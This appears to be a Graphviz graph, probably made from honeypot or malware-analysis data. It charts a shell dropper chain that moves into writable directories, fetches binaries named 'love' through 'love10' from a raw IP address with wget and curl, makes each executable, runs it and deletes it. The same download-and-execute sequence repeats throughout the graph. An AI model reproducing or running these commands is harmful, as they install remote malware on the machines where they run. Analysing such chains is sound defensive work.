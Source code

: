 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://5.152.206.165/love "];
10 -> 12 [label=";,"];
12 [label="curl -O http://5.152.206.165/love "];
12 -> 14 [label=";,"];
14 [label="chmod +x love "];
14 -> 16 [label=";,"];
16 [label="./love "];
16 -> 18 [label=";,"];
18 [label="rm -rf love "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://5.152.206.165/love1 "];
30 -> 32 [label=";,"];
32 [label="curl -O http://5.152.206.165/love1 "];
32 -> 34 [label=";,"];
34 [label="chmod +x love1 "];
34 -> 36 [label=";,"];
36 [label="./love1 "];
36 -> 38 [label=";,"];
38 [label="rm -rf love1 "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://5.152.206.165/love2 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://5.152.206.165/love2 "];
52 -> 54 [label=";,"];
54 [label="chmod +x love2 "];
54 -> 56 [label=";,"];
56 [label="./love2 "];
56 -> 58 [label=";,"];
58 [label="rm -rf love2 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://5.152.206.165/love3 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://5.152.206.165/love3 "];
72 -> 74 [label=";,"];
74 [label="chmod +x love3 "];
74 -> 76 [label=";,"];
76 [label="./love3 "];
76 -> 78 [label=";,"];
78 [label="rm -rf love3 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://5.152.206.165/love4 "];
90 -> 92 [label=";,"];
92 [label="curl -O http://5.152.206.165/love4 "];
92 -> 94 [label=";,"];
94 [label="chmod +x love4 "];
94 -> 96 [label=";,"];
96 [label="./love4 "];
96 -> 98 [label=";,"];
98 [label="rm -rf love4 "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 110 [label="||,"];
110 [label="wget http://5.152.206.165/love5 "];
110 -> 112 [label=";,"];
112 [label="curl -O http://5.152.206.165/love5 "];
112 -> 114 [label=";,"];
114 [label="chmod +x love5 "];
114 -> 116 [label=";,"];
116 [label="./love5 "];
116 -> 118 [label=";,"];
118 [label="rm -rf love5 "];
118 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="wget http://5.152.206.165/love6 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://5.152.206.165/love6 "];
132 -> 134 [label=";,"];
134 [label="chmod +x love6 "];
134 -> 136 [label=";,"];
136 [label="./love6 "];
136 -> 138 [label=";,"];
138 [label="rm -rf love6 "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://5.152.206.165/love7 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://5.152.206.165/love7 "];
152 -> 154 [label=";,"];
154 [label="chmod +x love7 "];
154 -> 156 [label=";,"];
156 [label="./love7 "];
156 -> 158 [label=";,"];
158 [label="rm -rf love7 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://5.152.206.165/love8 "];
170 -> 172 [label=";,"];
172 [label="curl -O http://5.152.206.165/love8 "];
172 -> 174 [label=";,"];
174 [label="chmod +x love8 "];
174 -> 176 [label=";,"];
176 [label="./love8 "];
176 -> 178 [label=";,"];
178 [label="rm -rf love8 "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://5.152.206.165/love9 "];
190 -> 192 [label=";,"];
192 [label="curl -O http://5.152.206.165/love9 "];
192 -> 194 [label=";,"];
194 [label="chmod +x love9 "];
194 -> 196 [label=";,"];
196 [label="./love9 "];
196 -> 198 [label=";,"];
198 [label="rm -rf love9 "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://5.152.206.165/love10 "];
210 -> 212 [label=";,"];
212 [label="curl -O http://5.152.206.165/love10 "];
212 -> 214 [label=";,"];
214 [label="chmod +x love10 "];
214 -> 216 [label=";,"];
216 [label="./love10 "];
216 -> 217 [label=";,"];
}

